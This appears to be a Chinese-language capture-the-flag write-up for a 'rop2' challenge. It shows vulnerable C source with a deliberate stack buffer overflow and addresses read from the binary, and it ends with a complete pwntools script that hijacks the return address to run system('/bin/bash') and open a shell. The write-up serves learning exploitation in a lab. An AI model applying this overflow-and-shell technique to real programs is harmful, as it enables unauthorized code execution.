

# Write-Up
```
char * not_used = "/bin/bash";

int not_called() {
	return system("/bin/date");
}

void vulnerable_function() {
	char buf[128];
	read(STDIN_FILENO, buf, 256);
}

void be_nice_to_people() {
	// /bin/sh is usually symlinked to bash, which usually drops privs. Make
	// sure we don't drop privs if we exec bash, (ie if we call system()).
	gid_t gid = getegid();
	setresgid(gid, gid, gid);
}

int main(int argc, char** argv) {
        be_nice_to_people();
	vulnerable_function();
	write(STDOUT_FILENO, "Hello, World\n", 13);
}
```
可以看到，和rop1非常类似，但是```not_called```中```system```函数调用的不是shell，我们也看到有一个shell的字符串

所以我们可以使这个```system```函数，而参数是```/bin/bash```，这样就能拿到shell了

那么怎么使得参数可以修改成我们想要的值呢？

查看函数汇编代码



我们可以发现，在```call .system```之前，往栈上放了```/bin/date```，所以如果我们在栈上放```/bin/bash```再调用就可以得到shell了

查看保护机制，几乎没有保护
>    Arch:     i386-32-little  
    RELRO:    Partial RELRO  
    Stack:    No canary found  
    NX:       NX enabled  
    PIE:      No PIE (0x8048000)  

可以直接在elf文件中读出偏移地址

>0x08048610 aBinBash        db '/bin/bash',0  
0x080484B1                 call    .system

所以我们可以这样构造输入
>junk + call + /bin/bash

利用junk覆盖到eip前，利用call劫持返回的eip，再放一个bash作为参数，即可


这里不知道为什么不能像以往一样直接利用命令行执行

~~我可能点错什么设置吧~~

这里利用python脚本来写啦，后面大部分题目都得利用python

```pwntools```是一个必备的python库，得自行安装

简单介绍几个功能

```
p = process('./rop2')
```

```process``` 函数可以启动一个进程，通常就是用来启动我们的程序

```
payload = 'a'*140+p32(call)+p32(bash)
```

这里的 ```p32```是把数据转换成内存中的形式(p32(1)='\x01\x00\x00\x00')，这里直接拼接形成payload
>32位用p32,64位用p64

```
p.send(payload)
```

```send``` 函数可以把参数中的内容送到程序输入缓存里，等同于把payload输入到程序中(程序此时在读取)

```
p.interactive()
```

```interactive``` 通常在get到shell后进入交互模式，此时就可以像一个模拟终端一样进行操作

完整exp：
```
from pwn import *
p = process('./rop2')
call = 0x080484b1
bash = 0x08048610
payload = 'a'*140+p32(call)+p32(bash)
p.send(payload)
p.interactive()
```
